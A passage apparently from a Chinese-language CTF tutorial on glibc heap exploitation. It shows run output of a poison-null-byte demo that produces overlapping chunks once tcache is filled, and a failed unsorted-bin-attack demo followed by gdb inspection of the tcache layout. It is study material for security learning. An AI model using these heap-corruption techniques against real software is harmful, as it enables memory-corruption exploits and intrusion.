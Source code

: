 增加了填满tcache的代码后，重新编译后运行：
\begin{verbatim}
$ ./poison_null_byte_tcache
We allocate 0x10 bytes for 'a': 0x1104260
'real' size of 'a': 0x18
b: 0x1104280
c: 0x1104390
b.size: 0x111 ((0x100 + 0x10) | prev_in_use)

After free(b), c.prev_size: 0x110
We overflow 'a' with a single null byte into the metadata of 'b'
b.size: 0x100

Pass the check: chunksize(P) == 0x100 == 0x100 == prev_size (next_chunk(P))
We malloc 'b1': 0x1104280
c.prev_size: 0x110
fake c.prev_size: 0x70

We malloc 'b2', our 'victim' chunk: 0x1104310
Now we free 'b1' and 'c', this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').
Finally, we allocate 'd', overlapping 'b2': 0x1104280

b2 content:AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
New b2 content:BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
\end{verbatim}

利用成功。

\subsection{unsorted\_bin\_attack}

编译，运行得到结果：
\begin{verbatim}
$ ./unsorted_bin_attack    
The target we want to rewrite on stack: 0x7ffd6553aaa0 -> 0

Now, we allocate first small chunk on the heap at: 0x1093260
We free the first chunk now. Its bk pointer point to (nil)
We write it with the target address-0x10: 0x7ffd6553aa90

Let's malloc again to get the chunk we just free: 0x7ffd6553aaa0 -> (nil)
\end{verbatim}

利用没有成功，我们在gdb中打开，在\verb+ free(p)+后下断，并查看当前堆布局：
\begin{verbatim}
gef> p p
$1 = (unsigned long *) 0x602260

gef> vmmap heap
Start              End                Offset             Perm Path
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]

gef> x/30gx 0x0000000000602000+0x10                  <-- heap base
0x602010:   0x0100000000000000  0x0000000000000000   <-- tcache_1
0x602020:   0x0000000000000000  0x0000000000000000
...         ...                 ...
0x602070:   0x0000000000000000  0x0000000000000000
0x602080:   0x0000000000000000  0x0000000000602260   <-- address of p

\end{verbatim}


